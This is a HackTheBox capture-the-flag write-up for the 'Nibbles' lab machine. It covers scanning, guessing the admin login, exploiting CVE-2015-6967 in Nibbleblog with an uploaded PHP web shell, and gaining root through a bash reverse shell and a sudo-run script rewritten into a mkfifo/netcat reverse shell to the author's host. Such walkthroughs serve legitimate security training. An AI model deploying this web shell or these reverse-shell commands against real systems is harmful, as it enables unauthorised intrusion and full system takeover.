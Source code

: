 ```yaml
---
title: "Nibbles HTB Writeup"
publishedAt: "2018-07-01"
updatedAt: "2020-10-12"
summary: "Writeup of the Nibbles HackTheBox machine."
---
```


- Creator: [@mrb3n](https://www.hackthebox.eu/home/users/profile/2984)
- Host: [hackthebox.eu](https://hackthebox.eu)

## Owning User

Let's start up with the usual Nmap port scan.

> `~ ❯❯❯ nmap -sC -sV 10.10.10.75`

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-25 18:52 EEST
Nmap scan report for 10.10.10.75 (10.10.10.75)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; pr
otocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds
```

Looks like we have a webserver. Let's fire up our browser and have a look.

![10.10.10.75](nibbles-hack-the-box-writeup/10.10.10.75.png)

Hello to you too! A simple `view-source` reveals an interesting directory:

```html
<b>Hello world!</b>


<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Navigating to the new directory, we find an empty blog.

![nibbleblog](nibbles-hack-the-box-writeup/nibbleblog.png)

Let's try to `dirb` for any suspicious files within this 'empty' blog.

> `~ ❯❯❯ dirb http://10.10.10.75/nibbleblog/`

```bash
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Jun 25 18:58:57 2018
URL_BASE: http://10.10.10.75/nibbleblog/
WORDLIST_FILES: /usr/local/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.75/nibbleblog/ ----


==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/
+ http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)

==> DIRECTORY: http://10.10.10.75/nibbleblog/content/
+ http://10.10.10.75/nibbleblog/index.php (CODE:200|SIZE:4743)

==> DIRECTORY: http://10.10.10.75/nibbleblog/languages/

==> DIRECTORY: http://10.10.10.75/nibbleblog/plugins/
+ http://10.10.10.75/nibbleblog/README (CODE:200|SIZE:4628)

==> DIRECTORY: http://10.10.10.75/nibbleblog/themes/

-----------------
END_TIME: Mon Jun 25 19:04:50 2018
DOWNLOADED: 4612 - FOUND: 3
```

The `admin.php` page seems interesting; we should have a look.

![admin](nibbles-hack-the-box-writeup/admin.png)

A login screen. Let's give it some guessing shots to see if we can get lucky.

After a few tries, we notice that there's some sort of WAF, blacklisting users after consecutive failed authentication attempts.

![blacklist](nibbles-hack-the-box-writeup/blacklist.png)

A few minutes later, we were able to retry.

The credentials `admin` for username and `nibbles` for password did the job, saving us from the trouble of bruteforcing our way in (using some dynamic proxy). Of course, it's Hack The Box; the machine's name always comes in handy at some point.

After conducting some research, we come accross a nibbleblog vulnerability: [CVE-2015-6967](https://seclists.org/fulldisclosure/2015/Sep/5). It turns out that we can upload any `php` script as an image in the "My image" plugin section. 

A dead simple php script should do the job:

```php
<?php

echo shell_exec($_GET['e']);
```

Once we upload our 'image' onto the bloggin platform, we can navigate to [10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=id) to see that we are now able to execute commands through our url bar!

![id](nibbles-hack-the-box-writeup/id.png)

Evidently, we now have 'nibbler' privileges (i.e. user privileges). So, let's pop a reverse shell.

Firstly, we should create a file containing our reverse shell script inside the `/tmp/` directory, where we should logically have the appropriate permissions. 

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/echo "/bin/bash -i %3E%26 /dev/tcp/10.10.15.174/443 0%3E%261" > /tmp/reverse.txt
```

Subsequently, let's ensure that we have execute permissions to run the temporary file using `chmod 777`.

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/chmod 777 /tmp/reverse.txt
```

Finally, we can now fire up a listener on our local device using `netcat`  and execute our reverse shell file.

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/bash /tmp/reverse.txt/
```

We should now have a shell as user "nibbler":

> `root@kali:~/# nc -vlp 443`

```bash
listening on [any] 443 ...
connect to [10.10.15.174] from 10.10.10.75 [10.10.10.75] 39002
bash: cannot set terminal process group (1335): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```

We can subsequently navigate to the `/home/` directory where we can retrieve our first flag:

> `nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler`

> `nibbler@Nibbles:/home/nibbler/$ cat user.txt`

```bash
{USER_HASH_GOES_HERE}
```

## Owning Root

Taking a look at the contents of nibbler's home directory, we can also find a zip folder called `personal.zip`. Let's try unzipping it.

> `nibbler@Nibbles:/home/nibbler/$ ls`

```bash
personal.zip
user.txt
```

> `nibbler@Nibbles:/home/nibbler/$ unzip personal.zip`

```bash
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

The archive inflated a new file called `monitor.sh`. Let's navigate to its directory.

> `nibbler@Nibbles:/home/nibbler/$ cd personal/stuff`

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ ls -la`

```bash
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

The file contains a bash script called [tecmint_monitor.sh](https://github.com/atarallo/TECMINT_MONITOR/blob/master/tecmint_monitor.sh) which, according to the creator, "monitors linux health"; that's beside the point though. Now, let's modify the contents of the file into a reverse shell script and try to run it as `root`. 

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ sed -i d monitor.sh`

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff/$ echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.174 7777 > /tmp/f" >> monitor.sh
```

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ sudo -u root monitor.sh`

We should make sure to open up a listener on the same port before running the above command and wait to see if we can get a connection.

> `root@kali:~/Desktop# nc -vlp 7777`

```bash
listening on [any] 7777 ...
connect to [10.10.15.174] from 10.10.10.75 [10.10.10.75] 49104
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

And there we have it! We now have root priviliges. Let's extract our `root.txt` hash.

```bash
# cd /root
# ls
root.txt
# cat root.txt
{ROOT_HASH_GOES_HERE}
```

I hope you enjoyed this walkthrough! Make sure to stay tuned for more *Hack The Box* writeups coming up soon!
